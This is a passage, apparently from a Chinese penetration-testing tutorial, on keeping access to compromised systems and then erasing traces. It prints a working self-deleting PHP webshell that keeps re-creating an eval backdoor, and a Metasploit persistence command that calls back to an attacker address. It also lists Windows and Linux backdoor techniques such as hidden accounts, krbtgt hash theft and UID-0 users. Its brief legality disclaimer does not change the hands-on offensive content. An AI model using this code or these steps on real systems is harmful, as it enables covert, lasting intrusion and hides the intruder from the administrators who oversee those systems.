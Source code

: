 1：隐藏后门文件(将文件设置为隐藏)

2：不死马，该脚本每5秒向服务器创建test.php，并写入一句话免杀木马。结合attrib命令隐藏文件更好地建立后门。

    
    
    <?php
        set_time_limit(0);//程序执行时间
        ignore_user_abort(1);//关掉终端后脚本仍然运行
        unlink(__FILE__);//文件完整名
        while(1){
            file_put_contents('test.php','<?php $a=array($_REQUEST["x"]=>"3");
            $b=array_keys($a)[0];
            eval($b);?>');
            sleep(5);
        }
    ?>
    

3： 404页面隐藏后门，或者在其他自带文件中插入后门代码

注：以上几种后门方法均能被D盾等工具检测到

#### Windows系统

1：建立隐藏用户，在用户名后加 $

2：在开机启动目录下放置木马文件，只要目标机器重启，将回连我们的远控

3：MSF里的 persistence 模块，执行命令可以使目标机器每隔一定时间自动回连远控。但是容易被发现

    
    
    #反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀
    run persistence -X -i 5 -p 8888 -r 192.168.10.27  
     
    #然后它就在目标机新建了这个文件：C:\Windows\TEMP\CJzhFlNOWa.vbs ，并把该服务加入了注册表中，只要开机就会启动
    

4：在域环境下，想办法获得 krbtgt 用户的哈希，该用户的哈希可以进行票据传递攻击。而且一般该用户的密码不经常改变。

5：shift后门

6：远程桌面会话劫持

#### Linux系统

  * SSH后门
  * crontab定时任务
  * SSH公钥
  * 创建SUID=0的用户

### 痕迹清除

当我们达到了目的之后，有时候只是为了黑入网站挂黑页，炫耀一下；或者在网站留下一个后门，作为肉鸡，没事的时候上去溜达溜达；亦或者挂入挖矿木马；但是大家千万不要干这些事，这些都是违法的！

我这里只是教大家在渗透进去之后如何清除我们留下的一部分痕迹，并不能完全清除，完全清除入侵痕迹是不可能的！主要是增加管理员发现入侵者的时间成本和人力成本。只要管理员想查，无论你怎么清除，还是能查到的。

最主要还是要以隐藏自身身份为主，最好的手段是在渗透前挂上代理，然后在渗透后痕迹清除。

#### Windows系统
